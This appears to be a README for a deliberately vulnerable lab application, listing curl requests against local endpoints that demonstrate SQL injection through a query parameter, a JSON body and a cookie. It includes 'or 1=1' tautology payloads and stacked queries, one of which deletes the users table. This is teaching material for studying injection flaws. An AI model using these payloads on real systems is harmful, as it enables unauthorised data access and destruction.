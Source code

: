 # vulnerable

## GET request - Get list of users - filter in query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
```

## POST request - Get list of users - filter in body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

## Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

## GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```